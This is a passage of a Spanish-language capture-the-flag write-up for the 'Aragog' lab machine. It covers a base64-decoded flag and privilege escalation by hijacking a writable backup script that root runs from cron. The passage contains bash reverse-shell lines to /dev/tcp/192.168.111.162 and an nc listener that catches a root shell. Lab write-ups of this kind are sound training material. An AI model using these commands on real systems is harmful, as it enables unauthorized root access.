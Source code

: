 Permitiendo el logueo con este usuario y acceso al primer horrocrux.

```bash
hagrid98@Aragog:~$ cat horcrux1.txt
horcrux_{MTogUmlkRGxFJ3MgRGlBcnkgZEVzdHJvWWVkIEJ5IGhhUnJ5IGluIGNoYU1iRXIgb2YgU2VDcmV0cw==}
hagrid98@Aragog:~$ echo 'MTogUmlkRGxFJ3MgRGlBcnkgZEVzdHJvWWVkIEJ5IGhhUnJ5IGluIGNoYU1iRXIgb2YgU2VDcmV0cw==' | base64 -d && echo
1: RidDlE's DiAry dEstroYed By haRry in chaMbEr of SeCrets
```

#### hagrid98 &rarr; root

Como parte de la enumeración se encontró dentro de `/opt` un archivo `.sh` que realiza una copia a la carpeta `/tmp`, lo cuál dado que se puede modificar con el usuario obtenido, se puede posteriormente corroborar si está siendo ejecutado de alguna manera.

```bash
hagrid98@Aragog:~$ ls -la /opt/
total 12
drwxr-xr-x  2 root     root     4096 Apr  1  2021 .
drwxr-xr-x 18 root     root     4096 Mar 31  2021 ..
-rwxr-xr-x  1 hagrid98 hagrid98  132 Feb  6 10:23 .backup.sh
hagrid98@Aragog:~$ cat /opt/.backup.sh
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads
/bin/bash -i >& /dev/tcp/192.168.111.162/4321 0>&1
```

Para corroborar si el script está siendo ejecutado se ejecutó [pspy](https://github.com/DominicBreuker/pspy), identificando así que está siendo ejecutado por el usuario `root`. Bastaría con añadir el comando que se desee (como una reverse shell) para escalar al usuario `root`.

```bash
2023/03/07 04:03:10 CMD: UID=0    PID=1      | /sbin/init
2023/03/07 04:04:01 CMD: UID=0    PID=2367   | /usr/sbin/CRON -f
2023/03/07 04:04:01 CMD: UID=0    PID=2368   | /usr/sbin/CRON -f
2023/03/07 04:04:01 CMD: UID=0    PID=2369   | /bin/sh -c bash -c "/opt/.backup.sh"
2023/03/07 04:04:01 CMD: UID=0    PID=2370   | /bin/bash /opt/.backup.sh
```

Ejecutando por ejemplo:

```bash
hagrid98@Aragog:~$ echo 'bash -i >& /dev/tcp/192.168.111.162/443 0>&1' >> /opt/.backup.sh && cat /opt/.backup.sh
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads
bash -i >& /dev/tcp/192.168.111.162/443 0>&1
```

Permitiendo establecer una conexión y el segundo horrocrux.

```bash
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.111.162] from (UNKNOWN) [192.168.111.175] 45738
bash: cannot set terminal process group (2516): Inappropriate ioctl for device
bash: no job control in this shell
root@Aragog:~# ls -la
ls -la
total 40
drwx------  5 root root     4096 Feb  6 10:31 .
drwxr-xr-x 18 root root     4096 Mar 31  2021 ..
-rw-------  1 root root      802 Feb  7 08:29 .bash_history
-rw-r--r--  1 root root      570 Jan 31  2010 .bashrc
drwx------  3 root root     4096 Mar 31  2021 .gnupg
-rw-r--r--  1 root hagrid98  818 Apr  1  2021 horcrux2.txt
```